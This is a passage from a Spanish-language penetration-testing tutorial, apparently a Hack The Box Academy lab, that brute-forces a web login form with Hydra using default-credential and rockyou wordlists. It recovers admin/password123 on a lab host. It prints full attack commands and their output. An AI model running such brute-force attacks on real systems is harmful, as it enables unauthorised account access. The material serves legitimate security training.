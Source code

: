 En nuestra situación, no tenemos información sobre los nombres de usuario o contraseñas existentes. Dado que enumeramos todos los puertos disponibles y no pudimos determinar ninguna información útil, tenemos la opción de probar el formulario de la aplicación web para credenciales predeterminadas en combinación con el módulo `http-post-form`.

---

## Default Credentials

Vamos a intentar usar la lista `ftp-betterdefaultpasslist.txt` con las credenciales predeterminadas para probar si una de las cuentas está registrada en la aplicación web.

```r
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

Como podemos ver, no pudimos identificar ninguna credencial funcional. Sin embargo, esto solo tomó unos segundos y descartamos el uso de contraseñas predeterminadas. Ahora, podemos pasar a usar una wordlist de contraseñas.

---

## Password Wordlist

Dado que el ataque de fuerza bruta falló utilizando credenciales predeterminadas, podemos intentar realizar un brute force en el formulario de la aplicación web con un usuario especificado. A menudo se utilizan nombres de usuario como `admin`, `administrator`, `wpadmin`, `root`, `adm` y similares en paneles de administración y rara vez se cambian. Conociendo este hecho, podemos limitar el número de posibles nombres de usuario. El nombre de usuario más común que usan los administradores es `admin`. En este caso, especificamos este nombre de usuario para nuestro próximo intento de acceder al panel de administración.

```r
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

Podemos intentar iniciar sesión con estas credenciales ahora:

`http://178.35.49.134:32901/login.php`

![](https://academy.hackthebox.com/storage/modules/57/bruteforcing_logged_in_1.jpg)